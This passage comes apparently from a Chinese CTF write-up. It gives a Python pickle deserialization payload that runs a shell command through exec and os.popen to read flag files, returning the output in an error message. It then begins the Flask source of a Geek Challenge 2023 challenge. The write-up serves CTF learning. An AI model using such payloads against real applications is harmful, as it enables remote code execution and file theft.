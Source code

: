 这里我试了好久，反弹不成功

还可以利用报错进行回显，**前提是得开启debug**

```python
import pickle
import base64

class A():
	def __reduce__(self):
		return (exec,("raise Exception(__import__('os').popen('cat /f*').read())",))


poc = base64.b64encode(pickle.dumps(A()))
print(poc)
```

![image-20240320203447886](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240320203447886.png)

## 极客大挑战2023

### ezpython

> 题目描述：can you pollute me?

直接给了源码

```python
import json
import os

from waf import waf
import importlib
from flask import Flask,render_template,request,redirect,url_for,session,render_template_string

app = Flask(__name__)
app.secret_key='jjjjggggggreekchallenge202333333'
class User():
    def __init__(self):
        self.username=""
        self.password=""
        self.isvip=False


class hhh(User):
    def __init__(self):
        self.username=""
        self.password=""

registered_users=[]
@app.route('/')
def hello_world():  # put application's code here
    return render_template("welcome.html")

@app.route('/play')
def play():
    username=session.get('username')
    if username:
        return render_template('index.html',name=username)
    else:
        return redirect(url_for('login'))

@app.route('/login',methods=['GET','POST'])
def login():
    if request.method == 'POST':
```